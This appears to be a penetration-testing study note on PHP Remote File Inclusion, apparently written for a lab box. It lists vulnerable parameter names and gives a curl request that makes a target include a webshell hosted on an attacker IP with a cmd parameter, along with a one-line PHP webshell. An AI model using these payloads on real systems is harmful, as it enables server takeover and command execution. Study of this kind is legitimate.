


# Remote File Inclusion (RFI)

## Overview

Remote File Inclusion (RFI) occurs when a web application accepts a user-supplied URL and includes its contents without proper validation. If remote file inclusion is enabled, an attacker may be able to execute malicious code hosted on an external server, potentially resulting in complete server compromise.

---

The **allow_url_include** and **allow_url_fopen** option needs to be enabled for this attack to work 
- we can check for this in phpinfo.php
  


If the URL contains a page parameter, we can try this exploit



- also parameters such as; file=, lang=, view, load=, mod=

The 'include(test)' or a require() with this error message is a classic RFI target



We can upload webshells with this vulnerability and get command execution
Find php webshells in the **/usr/share/webshells/php** directory 

Exploit
1) Start a webserver in the webshell directory

2) Use curl to host the file 
```
curl http://[target]/index.php?page=http://10.10.10.10/simple-backdoor.php&cmd=ls
```
- We can also use php-reverse-shell.php, php Ivan Sincek shell or a msfvenom reverse shell if this payload doesn't work
Or use a simple php webshell
```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > evil.txt
```

Working example in PG Slort(windows)
